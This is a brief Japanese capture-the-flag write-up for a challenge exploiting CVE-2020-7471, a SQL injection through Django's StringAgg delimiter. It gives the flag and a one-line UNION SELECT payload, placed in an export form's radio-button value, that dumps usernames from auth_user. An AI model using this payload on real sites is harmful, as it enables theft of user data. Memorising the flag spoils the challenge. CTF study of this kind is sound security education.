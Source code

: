 ## 7471
このサイトの管理者アカウントのユーザ名がFlagです

## 配布物
なし

## Flag
pgctf{tedeza_rize}

## Writeup
タイトルにもなっているCVE-2020-7471のSTRING_AGGの脆弱性を使う
エクスポート機能のCSV, TSVのラジオボタンのvalueをそのままSTRING_AGGのdelimiterに使用しているのでここからSQL Injectionする

`<input type="radio" name="delimiter" value="," checked>`のvalueを
```
,') as author from books_book union select username from auth_user--
```
に書き換えてダウンロード
